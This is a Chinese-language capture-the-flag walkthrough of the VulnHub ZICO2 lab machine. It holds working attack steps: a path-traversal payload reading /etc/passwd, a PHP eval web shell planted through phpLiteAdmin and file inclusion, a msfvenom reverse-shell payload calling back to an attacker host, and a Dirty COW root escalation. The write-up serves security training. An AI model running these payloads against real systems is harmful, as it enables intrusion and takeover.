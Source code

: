 # ZICO2

```
https://www.vulnhub.com/entry/zico2-1,210/
```



[TOC]



## 1.信息收集

### 1.1主机发现

```
netdiscover -r 192.168.32.0/24
_____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.32.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 192.168.32.2    00:50:56:eb:0a:2d      1      60  VMware, Inc.
 192.168.32.159  00:0c:29:8f:06:f2      1      60  VMware, Inc.
 192.168.32.254  00:50:56:fa:0a:be      1      60  VMware, Inc.

```

### 1.2端口扫描

```
masscan 192.168.32.159 -p 1-65535 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-08 07:12:03 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 52867/tcp on 192.168.32.159
Discovered open port 111/tcp on 192.168.32.159
Discovered open port 80/tcp on 192.168.32.159
Discovered open port 22/tcp on 192.168.32.159
```

### 1.3服务扫描

```shell
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -A 192.168.32.159 -p 80,22,111,52867
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 02:58 EST
Nmap scan report for bogon (192.168.32.159)
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33294/udp6  status
|   100024  1          52867/tcp   status
|   100024  1          56999/udp   status
|_  100024  1          59308/tcp6  status
52867/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:8F:06:F2 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms bogon (192.168.32.159)
```

### 1.4目录扫描

```shell
---- Scanning URL: http://192.168.32.159/ ----
+ http://192.168.32.159/cgi-bin/ (CODE:403|SIZE:290)
==> DIRECTORY: http://192.168.32.159/css/
==> DIRECTORY: http://192.168.32.159/dbadmin/
==> DIRECTORY: http://192.168.32.159/img/
+ http://192.168.32.159/index (CODE:200|SIZE:7970)
+ http://192.168.32.159/index.html (CODE:200|SIZE:7970)
==> DIRECTORY: http://192.168.32.159/js/
+ http://192.168.32.159/LICENSE (CODE:200|SIZE:1094)
+ http://192.168.32.159/package (CODE:200|SIZE:789)
+ http://192.168.32.159/server-status (CODE:403|SIZE:295)
+ http://192.168.32.159/tools (CODE:200|SIZE:8355)
==> DIRECTORY: http://192.168.32.159/vendor/
+ http://192.168.32.159/view (CODE:200|SIZE:0)
```



## 2.漏洞探测

### 2.1访问扫描出来的目录

![](img/Snipaste_2022-03-08_16-25-27.png)

![](img/Snipaste_2022-03-08_16-08-48.png)

![](img/Snipaste_2022-03-08_16-10-04.png)

###  2.2弱口令登录数据库

```
admin
```

![](img/Snipaste_2022-03-08_16-14-36.png)

发现用户的用户名密码，找个网站解密一下

```
root:34kroot34
zico:zico2215@
```

### 2.3尝试ssh登录服务器（失败）

两个都不行

![](img/Snipaste_2022-03-08_16-18-26.png)

### 2.4文件包含漏洞

看到这种格式的链接就想到文件包含漏洞

```
http://192.168.32.159/view.php?page=tools.html
```

![](img/Snipaste_2022-03-08_16-20-52.png)



构造payload

```
http://192.168.32.159/view.php?page=../../../etc/passwd
```

![](img/Snipaste_2022-03-08_16-22-31.png)

目前的收集的信息除了这个也不知道包含什么了

## 3.漏洞利用

### 3.1phpLiteAdmin getshell 

kali本地搜索相关的漏洞利用信息

```
searchsploit phpLiteAdmin
```

![](img/Snipaste_2022-03-08_16-30-38.png)

 

```shell
cat /usr/share/exploitdb/exploits/php/webapps/24044.txt
```

根据提示来：

1.创建一个数据库 hack.php

![](img/Snipaste_2022-03-08_16-35-13.png)

2.创建一个test表

![](img/Snipaste_2022-03-08_16-36-57.png)



3.写入phpinfo 看下是否利用成功

![Snipaste_2022-03-09_00-10-31](img/Snipaste_2022-03-09_00-10-31.png)



###  3.2.文件包含漏洞getshell

文件的路径为：

```
/usr/databases/hack.php
```

 文件包含：

```
http://192.168.32.159/view.php?page=../../../usr/databases/hack.php
```

![](img/Snipaste_2022-03-09_00-16-21.png)

思路：包含一个php 一句话木马，getshell。



把`phpinfo()`修改为`<?php @eval($_POST[123]);?>`,然后再文件包含

```
http://192.168.32.159/view.php?page=../../../usr/databases/hack.php
```

中国蚁剑连接木马



![](img/Snipaste_2022-03-09_00-37-26.png)

![](img/Snipaste_2022-03-09_00-38-52.png)





## 4.提权

内核较老可以尝试脏牛

MSF生成木马，并开启监听

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.32.155 lport=4444 -f elf  >4444.elf
```





获取shell后

切换python 终端

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](img/Snipaste_2022-03-11_15-31-26.png)



### 4.1把payload上传到目标机器



编译：

```c++
gcc -pthread dirty.c -o dcow -lcrypt
#而gcc手册里则指出应该在编译和链接时都增加 -pthread 选项
# -lcrypt返回一个指向以NULL结尾的密码字符串。
```

```
./dcow     #运行木马
1234567  #输入新密码
su -     #切换root用户
cd /root
cat flag.txt
```

![](img/Snipaste_2022-03-11_16-07-12.png)
